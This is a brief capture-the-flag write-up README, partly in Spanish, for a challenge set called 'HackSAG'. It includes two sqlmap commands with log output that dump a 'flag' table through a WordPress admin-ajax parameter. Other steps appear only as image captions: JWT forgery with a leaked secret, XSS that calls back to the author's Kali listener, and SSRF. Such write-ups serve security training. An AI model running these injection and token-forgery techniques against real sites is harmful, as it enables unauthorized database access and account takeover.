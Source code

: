 # HackSAG

Brief description here of the challenge

## FLAG{ALWAYS_CHECK_COMMITS}

![imagen del commit donde hemos encontrado el flag](./images/FLAG{ALWAYS_CHECK_COMMITS}_1.jpg?raw=true)

## FLAG{Update_Plugins!}

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --tables

[20:04:16] [INFO] fetching number of tables for database 'flag'
[20:04:16] [INFO] retrieved: 1
[20:04:18] [INFO] retrieved: flag

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --dump -D flag -T flag

[20:20:00] [INFO] fetching entries for table 'flag' in database 'flag'
[20:20:00] [INFO] fetching number of entries for table 'flag' in database 'flag'
[20:20:00] [INFO] retrieved: 1
[20:20:04] [INFO] retrieved: FLAG{Update_Plugins!}

## API_FLAG{Never_public_your_secret}

![Hacemos el fuzz para encontrar mas endpoints](./images/fuzz_1.jpg?raw=true)

![cambiamos algunas cosas del token(user y le pinemos admin, y ponemos la JWT_SECRET_KEY](./images/token_admin.jpg?raw=true)


## FLAG{sanitize_input}

![Hacemos cross side scripting para enviar una peticion a nuestro kali](./images/cross_side_scripting_2.jpg?raw=true)

![Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag](./images/FLAG{sanitize_input}.jpg?raw=true)


## FLAG{SSRF_PARA_TOD@S_XD}

![Cambiamos la url para llegar al sitio concreto cambiando letras y todo ](./images/FLAG{SSRF_PARA_TOD@S_XD}.jpg?raw=true)

## FLAG

Describe here the process to find the flag (you can include videos, images, etc)
